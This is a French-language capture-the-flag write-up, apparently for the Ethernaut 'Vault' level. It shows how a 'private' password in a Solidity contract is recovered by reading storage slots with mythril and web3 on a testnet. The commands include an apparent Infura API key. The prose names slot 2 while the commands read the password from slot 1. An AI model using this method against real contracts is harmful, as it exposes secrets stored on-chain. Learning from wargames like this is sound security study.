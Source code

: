 Unlock the vault to pass the level!

```javascript
pragma solidity ^0.5.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### Analyse

Ce smart contract est assez simple à comprendre. Le constructeur permet de locker le contrat avec un mot de passe. Pour unlocker ce dernier, il faut connaître le mot de passe.

> [Smart contract storage](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/)

Le mot de passe contenu dans `password` est dans le slot 2 du smart contract. Pour lire le contenu de ce slot 2, nous allons utiliser [mythril](https://github.com/ConsenSys/mythril). C'est un outil qui peut permettre de lire les slots d'un smart contract.

### Attaque

> **Obtenir un INFURA_ID**
>
> Avant de pouvoir utiliser `mythril` il faut récupérer un `infura_id`, c'est une sorte de clé d'API:
>
> * créer un compte sur `https://infura.io/register`
> * créer un projet
> * récupérer l'`API key` ou le `PROJECT ID`

```bash
# slot 0
$ docker run -it --net=host -e INFURA_ID=ceb5f54c0bff4da6919aa26300f5bedd mythril/myth read-storage --rpc infura-ropsten 0 0x1D9EDF73319C88C52680F875909B42C53216B5C0
# INFURA_ID=ceb5f...: our API key
# read-storage: retrieves storage slots from a given address through rpc
# --rpc infura-ropsten: use ropsten network
# 0: read slot 0
# 0x1D9: contract address
0: 0x0000000000000000000000000000000000000000000000000000000000000001


# slot 1
$ docker run -it --net=host -e INFURA_ID=ceb5f54c0bff4da6919aa26300f5bedd mythril/myth read-storage --rpc infura-ropsten 1 0x1D9EDF73319C88C52680F875909B42C53216B5C0
1: 0x412076657279207374726f6e67207365637265742070617373776f7264203a29

# other method to read
> await web3.eth.getStorageAt("0x1D9EDF73319C88C52680F875909B42C53216B5C0",0)
> await web3.eth.getStorageAt("0x1D9EDF73319C88C52680F875909B42C53216B5C0",1)
```
